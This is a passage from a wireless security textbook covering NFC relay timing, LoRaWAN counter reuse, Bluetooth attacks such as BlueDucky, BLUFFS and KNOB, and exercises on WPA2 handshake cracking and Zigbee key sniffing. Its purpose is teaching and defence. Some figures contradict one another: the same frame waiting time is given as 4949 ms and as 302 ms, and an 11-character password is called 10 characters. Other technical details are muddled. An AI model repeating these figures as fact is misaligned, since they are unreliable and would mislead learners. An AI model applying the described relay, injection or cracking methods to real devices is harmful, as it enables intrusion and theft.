(c) Cryptographic property violated: AES-128-CTR (underlying LoRaWAN MIC computation uses AES-CTR for payload confidentiality): the nonce is constructed from (DevAddr, FCnt, direction, block counter). If FCnt reuses a value with the same key, the AES-CTR keystream repeats: \(C_1 \oplus C_2 = P_1 \oplus P_2\) (ciphertext XOR reveals plaintext XOR). This violates nonce uniqueness – the fundamental requirement for stream cipher security. An attacker who captures frames before and after the wrap-around can XOR any two frames with the same FCnt to cancel the keystream and obtain \(P_1 \oplus P_2\). Violated property: IND-CPA security (nonce uniqueness for AES-CTR). LoRaWAN v1.1 mitigates this by using a 32-bit FCnt and requiring OTAA re-join on wrap.
Solved Problem: NFC Relay Attack Timing Detection
ISO 14443-3 specifies a Frame Waiting Time (FWT) for card responses. For a standard MIFARE DESFire EV3 card, FWT = 4949 ms (maximum). An NFC relay system (NFCGate) has: ghost-to-leech Internet latency 80 ms, leech-to-card RF latency 1 ms, card-to-leech RF latency 1 ms, leech-to-ghost Internet latency 80 ms. (a) What is the total relay round-trip time? (b) Does the relay fit within the FWT? (c) Propose a relay detection threshold for a payment terminal.
Solution: (a) Total relay round-trip time: Ghost RF to reader: \(\leq 1\) ms (standard NFC). Ghost to leech (Internet): 80 ms. Leech to card RF: 1 ms. Card response to leech RF: 1 ms. Leech to ghost (Internet): 80 ms. Ghost RF response to reader: \(\leq 1\) ms. Total relay RTT: \(80 + 1 + 1 + 80 + 1 + 1 = 164\) ms.
(b) Relay within FWT? ISO 14443-3 FWT = 4949 ms for DESFire EV3. \(164\) ms \(\ll 4949\) ms. Yes, the relay fits comfortably within the maximum allowed FWT.
(c) Detection threshold proposal: Genuine DESFire EV3 card response time: typically 1–5 ms (card processing + RF). The relay adds 160 ms overhead (2\(\times\) Internet latency). Detection threshold: if card response time \(> 15\) ms, flag as potential relay. This provides: 10\(\times\) margin above genuine card, flags relay with 80 ms Internet latency (even with a fast 40 ms relay, it exceeds the threshold). Implementation: reader firmware timestamps the APDU send and response receive, computes \(\Delta t\); alert if \(\Delta t > 15\) ms on any command during a payment session. This is implemented in EMV Contactless Level 2 as “Timing Anomaly” detection in post-2022 payment terminal firmware (Mastercard M/Chip Advance 5.0).
36.16 Standards¶
-
IEEE 802.11-2020: Wi-Fi core standard including WPA3-SAE, PMF (Protected Management Frames, 802.11w integrated), OWE, GCMP-256.
-
IEEE 802.11ax-2021 (Wi-Fi 6/6E): OFDMA, MU-MIMO, 6 GHz band, WPA3 mandatory for Wi-Fi 6E certification.
-
Bluetooth Core Specification 5.4 (Bluetooth SIG, 2023): Bluetooth LE, BR/EDR, Secure Connections required for pairing, key negotiation entropy minimum 7 bytes (post-KNOB patch).
-
ISO/IEC 14443: Proximity Cards (13.56 MHz NFC/RFID); Parts 1–4 cover physical, RF, initialisation, and transmission protocols.
-
ISO/IEC 15693: Vicinity Cards (13.56 MHz, up to 1 m range).
-
IEEE 802.15.4-2020: PHY and MAC for low-rate wireless networks; foundation for Zigbee, Thread, 6LoWPAN, WirelessHART.
-
LoRaWAN Specification TS001 v1.1: LoRa Alliance; end-device classes, OTAA join procedure, 32-bit FCnt, application session key derivation.
-
CCC Digital Key Release 3.0 (Car Connectivity Consortium, 2022): UWB-based proximity with BLE pairing; ISO 18013-5 mDL integration; relay attack resistance via ToF ranging.
-
ETSI EN 303 413: Satellite Earth Stations and Systems – global navigation satellite systems receivers (anti-spoofing and anti-jamming requirements).
-
FCC Part 15: US regulations for unlicensed RF devices; defines power limits for 315/433/868/915 MHz ISM bands.
-
NIST SP 800-97: Establishing Wireless Robust Security Networks, a guide to IEEE 802.11i (WPA2/WPA3) deployment security.
-
NIST SP 800-187: Guide to LTE Security; applicable to cellular-to-Wi-Fi offload and device security.
-
3GPP TS 33.501: 5G NR security architecture and procedures; defines 5G AKA, SUPI/SUCI protection against IMSI catchers.
36.17 Recent Developments (2024–2026)¶
Wireless hardware security evolved significantly from 2023 to 2026, with Wi-Fi 7 and Bluetooth 6.0 introducing new security capabilities alongside new attack surfaces, and foundational Bluetooth protocol vulnerabilities documented by INRIA researchers challenging the assumption of forward secrecy in Bluetooth pairing.
36.17.1 Wi-Fi 7 (IEEE 802.11be, 2024) — Security Features and MLO Attack Surface¶
IEEE 802.11be (Wi-Fi 7) was finalised in May 2024 with several security-relevant features:
-
Multi-Link Operation (MLO): Wi-Fi 7’s defining feature allows a single logical Wi-Fi connection to aggregate multiple physical links simultaneously (e.g., 2.4 GHz + 5 GHz + 6 GHz). From a security perspective, MLO introduces a new attack surface: the Multi-Link Device (MLD) setup requires a common MLD MAC address and shared state across links. An attacker who can manipulate one link in the MLD can potentially affect traffic on all links.
-
Security protocol: Wi-Fi 7 mandates WPA3-Personal (SAE) or WPA3-Enterprise (802.1X/EAP). WPA2 compatibility mode (with TKIP) is removed from Wi-Fi 7 certification requirements.
-
MLO handshake security: The MLD setup message (ML Probe Request/Response) is sent before WPA3 authentication completes, leaking the MLD MAC address and link configuration in plaintext. Research at ACM WiSec 2024 demonstrated that MLO probe messages enable fingerprinting of Wi-Fi 7 capable hardware before any association, bypassing MAC address randomisation in some chipset implementations.
-
OFDMA scheduling: Wi-Fi 7’s 4096-QAM OFDMA sub-carrier scheduling requires real-time resource unit (RU) assignment, increasing the complexity of DoS attacks but also the complexity of implementing time-constant WPA3 SAE commit operations on low-power IoT devices.
| Generation | Standard | Max Bandwidth | Security Protocol |
|---|---|---|---|
| Wi-Fi 5 | 802.11ac | 3.5 Gbps | WPA2/WPA3 (optional) |
| Wi-Fi 6 | 802.11ax | 9.6 Gbps | WPA3 recommended, WPA2 allowed |
| Wi-Fi 6E | 802.11ax (6 GHz) | 9.6 Gbps | WPA3 mandatory (6 GHz band) |
| Wi-Fi 7 | 802.11be | 46 Gbps | WPA3 mandatory, MLO security |
36.17.2 Bluetooth 6.0 Channel Sounding — Precise Ranging and Security (2024)¶
Bluetooth 6.0 (Bluetooth SIG, September 2024) introduced Channel Sounding (CS), a distance measurement feature with direct security applications:
-
Channel Sounding mechanism: CS uses RTT (Round-Trip Time) and phase-based ranging via OFDM subcarrier phase measurement across multiple BLE channels. Precision: \(\pm10\) cm at distances up to 50 metres with line-of-sight propagation.
-
Security applications: BLE proximity unlock (car keys, door locks, laptop presence detection) historically relied on RSSI, which is easily spoofed by relay attack hardware (RollJam-class relays). Channel Sounding provides physical-layer distance verification resistant to relay attacks because the speed-of-light propagation delay cannot be physically reduced – a relay at 10 metres adds at least 33 ns latency, detectable by CS RTT measurement.
-
Relay attack resistance analysis: Channel Sounding RTT threshold for 1-metre proximity: \(2 \times 1 / (3 \times 10^8) = 6.7\) ns. A relay attack requires the attacker’s system to process and retransmit the CS challenge packet in less than 6.7 ns – not achievable with any commercial RF hardware (minimum processing latency \(\sim\)100 ns for FPGA-based implementations).
-
Limitations: CS is vulnerable to NLOS (non-line-of-sight) multipath errors that can cause underestimation of distance. Indoor environments with reflective surfaces can produce CS distance measurements \(50\%\) shorter than actual physical distance.
36.17.3 CVE-2023-45866 — BlueDucky Bluetooth HID Injection¶
CVE-2023-45866, disclosed December 2023, affected Android, iOS, Linux, and macOS Bluetooth implementations:
-
Vulnerability: A design flaw in Bluetooth unauthenticated pairing allowed an attacker to pair a Bluetooth HID keyboard with a target device without user interaction, when the target device had Bluetooth enabled in discoverable mode. The attack exploited the “Just Works” association model accepting connection requests without any user confirmation prompt.
-
Hardware requirement: Implemented using a Raspberry Pi 4 or any Linux system with a Bluetooth 5.x adapter. The BlueDucky exploit tool (GitHub) automates pairing and HID injection in under 10 seconds.
-
Impact: Once paired, the attacker can inject arbitrary keystrokes to execute commands, download malware, or exfiltrate credentials on unlocked devices. The attack works at distances up to 100 metres with a high-gain Bluetooth antenna.
-
Patches: Google Android 14 QPR1 (December 2023), Apple iOS 17.2, and Linux BlueZ kernel patches addressed the unauthenticated pairing acceptance. Devices not updated to patched firmware remain vulnerable when Bluetooth discoverable mode is active.
36.17.4 BLUFFS — Bluetooth Forward Secrecy Attacks (2023, INRIA)¶
BLUFFS (Bluetooth Forward and Future Secrecy Attacks and Defences), published at ACM CCS 2023 by researchers at INRIA (Daniele Antonioli et al.), identified two new attack classes against Bluetooth Classic session key establishment:
-
Attack description: BLUFFS exploits Bluetooth Core Specification session key derivation to force the negotiation of a short (7-byte) or reused session key. The attack targets the “Legacy Secure Connections” key derivation function (KDF) in Bluetooth 2.1–5.3, which does not provide forward secrecy because session keys are derived deterministically from the long-term key (LK) and predictable nonces.
-
BLUFFS-1 (session key reuse): An attacker positioned as a MITM forces both devices to accept a previously-used session key by replaying old nonces, violating forward secrecy: compromise of the old key decrypts all past sessions.
-
BLUFFS-2 (key entropy reduction): Forces negotiation of a 7-byte (56-bit) session key (minimum allowed by the Bluetooth 5.3 specification) by manipulating the HCI key size negotiation. With 56-bit entropy and AES-CCM, brute-force recovery is feasible with a GPU cluster in hours.
-
Mitigations: The Bluetooth SIG assigned CVE-2023-24023 and issued a recommendation to enforce minimum session key length of 16 bytes in Bluetooth Classic. Hardware Bluetooth controllers (Qualcomm WCN6856, MediaTek MT6655) require firmware update to enforce the minimum key length in hardware before the HCI layer negotiation.
Note: BLUFFS exposes that Bluetooth Classic’s legacy secure connection mode fundamentally lacks forward secrecy. Devices processing highly sensitive data should use Bluetooth Low Energy Secure Connections (LESC) with LE SC OOB pairing, which uses Curve25519 ECDH and provides forward secrecy, rather than Bluetooth Classic ACL links.
36.17.5 UWB Security in Apple U2/U3 — AirDrop and Car Key Applications¶
Apple’s Ultra Wideband chip evolution from U1 (2019) to U2 (2022) and U3 (2024) added hardware security features for ranging applications:
-
Apple U3 chip (A17 Pro, iPhone 15 Pro, 2023): Introduced Precision Finding 3.0 with hardware-attested ranging. The U3 ranging result is signed by an on-chip secure element key (co-located on the A17 Pro die) before being passed to the application processor, preventing software from injecting falsified ranging data to bypass proximity-based access controls.
-
Car Key (Digital Key 3.0, CCC spec): The Car Key standard uses UWB ranging for passive entry (unlock when owner’s iPhone approaches) authenticated by ECDH P-256 + UWB Channel Impulse Response fingerprinting. The UWB CIR fingerprint is hardware-captured and cannot be replayed because the impulse response of the physical channel changes with centimetre-level position changes.
-
AirDrop secure ranging: iOS 17 AirDrop uses U2/U3 UWB ranging to confirm that a file transfer recipient is within 30 cm before enabling “everyone” mode AirDrop transfers, mitigating AirDrop spam and MITM interception by ensuring the physically-close intended recipient receives the file.
36.17.6 NFC Relay Attack Evolution — ACT Android NFC Relay (2023–2024)¶
NFC relay attacks advanced with the ACT (Android NFC Relay) framework (2023):
-
ACT framework: ACT enables relay attacks between two Android devices using standard Android NFC APIs (no root required), relaying ISO 14443-4 APDU commands over a TCP/IP channel. Total relay latency: \(\sim\)150 ms on LTE, enabling relay across city distances.
-
Transport payment impact: EMV contactless payments have a Frame Waiting Time (FWT) of 302 ms maximum (FWT=14, per ISO 14443-3). ACT’s 150 ms round-trip latency falls within the FWT window, making relay attacks against EMV contactless payments technically feasible on commodity hardware.
-
Distance Bounding countermeasure: ISO 14443-3 does not natively include distance bounding. Visa and Mastercard’s transaction relay countermeasures rely on behavioural analytics (transaction velocity, geo-velocity) rather than hardware distance bounding. True hardware countermeasure: NFC v2.0 with UWB binding (as implemented in Digital Key 3.0) adds physical proximity verification that cannot be relayed.
36.17.7 LoRaWAN 1.1.1 — Security Mitigations (2024)¶
LoRaWAN 1.1.1 (LoRa Alliance, 2024) addressed several security issues from LoRaWAN 1.1:
-
FCnt anti-rollback: LoRaWAN 1.1 32-bit FCnt already addressed the 16-bit wrap issue. Version 1.1.1 mandates that gateway-side network servers enforce FCnt monotonicity even across device power cycles, requiring the device to store the last FCnt in non-volatile flash (not RAM) to survive resets.
-
Join server HSM requirements: LoRaWAN 1.1.1 specifies that the LoRaWAN Join Server storing AppKeys must use a FIPS 140-3 Level 2 HSM for key storage, aligning with GSMA SGP.22 SIM personalisation security.
-
Replay window tightening: The Network Server maximum uplink FCnt gap tolerance (replay window) is specified as 16,384 frames maximum (down from unlimited in some implementations), limiting the window available to an attacker who stores a captured frame for later replay.
-
Hardware impact: LoRa module vendors (Semtech SX1262, ST STM32WL) updated reference firmware to store FCnt in EEPROM/OTP with write-verification to detect flash wear attacks that could reset the counter without triggering a Join procedure.
36.18 Exercises¶
Exercises
-
A Wi-Fi network uses WPA2-CCMP (AES-128-CCM). An attacker captures the full 4-way EAPOL handshake and also a PMKID from frame 1. (a) What is the difference between a handshake-based and PMKID-based offline attack? (b) The network password is “Winter2024!” (10 characters). Estimate the GPU-based cracking time using hashcat on a single RTX 4090 at \(1.8 \times 10^6\) PMKID/s, assuming a rules-based attack with the rockyou.txt dictionary plus best64 rules.
-
Broadpwn (CVE-2017-0561) achieves remote code execution on the Broadcom BCM43xx FullMAC Wi-Fi firmware without any user interaction. The firmware runs on an ARM Cortex-R4. (a) Explain why the FullMAC architecture (firmware processes 802.11 before the host CPU) is a security liability. (b) What firmware security features (stack canaries, ASLR, NX bit) were absent in BCM43xx? (c) How does the BCM4389 (newer Broadcom chip) address these issues?
-
The KNOB attack (CVE-2019-9506) reduces Bluetooth BR/EDR session entropy to 1 byte. (a) How many bits does a 1-byte Bluetooth session key have? (b) At \(10^9\) AES-128 operations per second, how long does brute-force take? (c) The Bluetooth Core Spec 5.0 introduced a minimum entropy requirement. What is the minimum now, and how does the LMP entropy negotiation enforce it?
-
A Zigbee smart meter uses AES-128-CCM* for link-layer encryption with the network key distributed via an insecure trust centre join (no pre-installed link key). An attacker uses KillerBee to sniff the network. (a) How does the attacker recover the network key from a join frame? (b) Once the network key is known, what commands can the attacker inject into the smart meter?
-
LoRaWAN OTAA join uses AppKey to derive JoinSKey and AppSKey. The AppKey is a 128-bit root key stored in the device. (a) If an attacker extracts the AppKey via a JTAG physical attack on the LoRa end-device MCU (e.g., STM32L476), can they decrypt past sessions? (b) What “harvest-now-decrypt-later” threat does this create for a 10-year-lifetime smart meter deployment?
-
An RTL-SDR v3 has a noise figure of 8 dB and a maximum sample rate of 2.4 MSPS. A weak 433 MHz signal has a received power of -110 dBm. The thermal noise floor at 293 K for 200 kHz bandwidth is \(kTB = -121\) dBm. (a) Calculate the SNR at the RTL-SDR input for OOK demodulation. (b) Is the signal decodable? What LNA gain is needed to bring SNR to 15 dB?
-
The RollJam attack stores a rolling code while jamming the channel. Modern UWB-based car keys (CCC Digital Key 3.0) are claimed to defeat relay attacks. (a) Explain the UWB ToF ranging mechanism and why a relay attack cannot defeat it. (b) Can RollJam be adapted to attack a UWB-based keyless entry system? Justify your answer with reference to the UWB ranging accuracy (\(\pm 10\) cm) and relay timing overhead.
-
TPMS (Tyre Pressure Monitoring Systems) sensors broadcast their 32-bit sensor ID in plaintext at 315 MHz. (a) An attacker wants to track a specific vehicle by its TPMS sensor ID. How far away can the attacker receive the TPMS signal using an RTL-SDR and a Yagi antenna with 10 dBi gain? (Assume TPMS TX power +10 dBm, free-space path loss at 315 MHz.) (b) Propose a privacy-preserving TPMS protocol that rotates the sensor ID while maintaining compatibility with the vehicle’s receiver.
-
A Bluetooth Low Energy peripheral device uses LEGACY pairing (pre-Bluetooth 4.2) with Just Works association model. (a) What is the TK (Temporary Key) value used in LEGACY Just Works pairing? (b) How does an active eavesdropper during the pairing session recover the LTK (Long-Term Key)? (c) What pairing mode in Bluetooth 5.x prevents this attack?
-
Universal Radio Hacker (URH) is used to reverse-engineer a proprietary 868 MHz wireless protocol used by a building access control system. The signal appears as FSK with 50 kHz deviation, 9600 baud, Manchester-encoded. Describe the step-by-step URH analysis workflow: (a) signal capture, (b) demodulation parameter identification, (c) bit sequence extraction, (d) protocol field identification (preamble, sync, address, command, CRC), (e) how to determine if replay attacks are possible.
-
A WPA3-SAE network uses the Dragonfly handshake with a group-19 (NIST P-256) elliptic curve. (a) Describe the password element derivation (hunting-and-pecking algorithm). (b) What timing side-channel vulnerability was found in the original Dragonfly implementation (Dragonblood, Vanhoef 2019)? (c) How was this patched in WPA3 Release 2 (IEEE 802.11-2020)?
-
A 5G NR base station (gNB) uses SUCI (Subscription Concealed Identifier) to protect the subscriber’s SUPI from IMSI catchers. SUCI uses ECIES with Curve25519 for the home network public key encryption. (a) Explain why SUCI prevents IMSI catcher (Stingray) attacks that succeeded against 2G/3G/4G. (b) What information does a 5G IMSI catcher still expose even with SUCI protection?
-
An enterprise WLAN uses 802.1X authentication with EAP-TLS. Client certificates are stored in hardware (TPM 2.0, RSA-2048 key in TPM). (a) Describe the EAP-TLS handshake between the client, authenticator (AP), and authentication server (RADIUS). (b) What attack does TPM key storage prevent compared to software key storage? (c) Why does this not protect against a rogue AP attack, and what additional control (PMF / 802.11w) is needed?
-
Zigbee uses IEEE 802.15.4 with O-QPSK modulation and DSSS (Direct Sequence Spread Spectrum) at 2.4 GHz. The spreading factor is 32 chips/bit. (a) Calculate the chip rate and the resulting processing gain (dB). (b) If a Wi-Fi 802.11n transmission at 2.437 GHz (channel 6) overlaps with Zigbee channel 11 (2.405 GHz), calculate the frequency separation and assess the interference risk based on the 802.11n channel width of 20 MHz.